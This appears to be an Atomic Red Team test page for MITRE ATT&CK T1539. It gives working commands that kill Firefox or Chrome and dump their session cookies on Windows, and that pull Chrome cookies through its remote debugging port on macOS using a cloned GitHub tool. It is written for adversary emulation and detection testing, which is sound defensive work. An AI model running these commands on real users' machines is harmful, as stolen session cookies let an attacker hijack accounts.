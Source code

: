 ```yaml
---
tags: [T1539, atomic_test]
filename: "[[T1539 - Steal Web Session Cookie]]"
---
```

# T1539 - Steal Web Session Cookie

## Atomic Test #1 - Steal Firefox Cookies (Windows)
This test queries Firefox's cookies.sqlite database to steal the cookie data contained within it, similar to Zloader/Zbot's cookie theft function. 
Note: If Firefox is running, the process will be killed to ensure that the DB file isn't locked. 
See https://www.malwarebytes.com/resources/files/2020/05/the-silent-night-zloader-zbot_final.pdf.

**Supported Platforms:** Windows


**auto_generated_guid:** 4b437357-f4e9-4c84-9fa6-9bcee6f826aa





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| sqlite3_path | Path to sqlite3 | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;sqlite-tools-win32-x86-3380200&#92;sqlite3.exe|
| output_file | Filepath to output cookies | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1539FirefoxCookies.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
stop-process -name "firefox" -force -erroraction silentlycontinue
$CookieDBLocation = get-childitem -path "$env:appdata\Mozilla\Firefox\Profiles\*\cookies.sqlite"
"select host, name, value, path, expiry, isSecure, isHttpOnly, sameSite from [moz_cookies];" | cmd /c #{sqlite3_path} "$CookieDBLocation" | out-file -filepath "#{output_file}"
```

#### Cleanup Commands:
```powershell
remove-item #{output_file} -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: Sqlite3 must exist at (#{sqlite3_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{sqlite3_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://www.sqlite.org/2022/sqlite-tools-win32-x86-3380200.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\sqlite.zip"
Expand-Archive -path "PathToAtomicsFolder\..\ExternalPayloads\sqlite.zip" -destinationpath "PathToAtomicsFolder\..\ExternalPayloads\" -force
```




<br/>
<br/>

## Atomic Test #2 - Steal Chrome Cookies (Windows)
This test queries Chrome's SQLite database to steal the encrypted cookie data, designed to function similarly to Zloader/Zbot's cookie theft function. 
Once an adversary obtains the encrypted cookie info, they could go on to decrypt the encrypted value, potentially allowing for session theft. 
Note: If Chrome is running, the process will be killed to ensure that the DB file isn't locked. 
See https://www.malwarebytes.com/resources/files/2020/05/the-silent-night-zloader-zbot_final.pdf.

**Supported Platforms:** Windows


**auto_generated_guid:** 26a6b840-4943-4965-8df5-ef1f9a282440





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| cookie_db | Filepath for Chrome cookies database | string | $env:localappdata&#92;Google&#92;Chrome&#92;User Data&#92;Default&#92;Network&#92;Cookies|
| sqlite3_path | Path to sqlite3 | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;sqlite-tools-win32-x86-3380200&#92;sqlite3.exe|
| output_file | Filepath to output cookies | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1539ChromeCookies.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
stop-process -name "chrome" -force -erroraction silentlycontinue
"select host_key, name, encrypted_value, path, expires_utc, is_secure, is_httponly from [Cookies];" | cmd /c #{sqlite3_path} "#{cookie_db}" | out-file -filepath "#{output_file}"
```

#### Cleanup Commands:
```powershell
remove-item #{output_file}
```



#### Dependencies:  Run with `powershell`!
##### Description: Sqlite3 must exist at (#{sqlite3_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{sqlite3_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://www.sqlite.org/2022/sqlite-tools-win32-x86-3380200.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\sqlite.zip"
Expand-Archive -path "PathToAtomicsFolder\..\ExternalPayloads\sqlite.zip" -destinationpath "PathToAtomicsFolder\..\ExternalPayloads\" -force
```




<br/>
<br/>

## Atomic Test #3 - Steal Chrome Cookies via Remote Debugging (Mac)
The remote debugging functionality in Chrome can be used by malware for post-exploitation activities to obtain cookies without requiring keychain access. By initiating Chrome with a remote debug port, an attacker can sidestep encryption and employ Chrome's own mechanisms to access cookies.

If successful, this test will output a list of cookies.

Note: Chrome processes will be killed during this test.

See https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e

**Supported Platforms:** macOS


**auto_generated_guid:** e43cfdaf-3fb8-4a45-8de0-7eee8741d072






#### Attack Commands: Run with `bash`! 


```bash
killall 'Google Chrome'
sleep 1
open -a "/Applications/Google Chrome.app/Contents/MacOS/Google Chrome" --args --remote-debugging-port=1337 --remote-allow-origins=http://localhost/
sleep 1
/tmp/WhiteChocolateMacademiaNut/chocolate -d cookies -p 1337
```

#### Cleanup Commands:
```bash
rm -rf /tmp/WhiteChocolateMacademiaNut
```



#### Dependencies:  Run with `bash`!
##### Description: Install Go
##### Check Prereq Commands:
```bash
go version
```
##### Get Prereq Commands:
```bash
brew install go
```
##### Description: Download and compile WhiteChocolateMacademiaNut
##### Check Prereq Commands:
```bash
/tmp/WhiteChocolateMacademiaNut/chocolate -h
```
##### Get Prereq Commands:
```bash
git clone https://github.com/slyd0g/WhiteChocolateMacademiaNut.git /tmp/WhiteChocolateMacademiaNut
cd /tmp/WhiteChocolateMacademiaNut
go mod init chocolate
go mod tidy
go build
```




<br/>
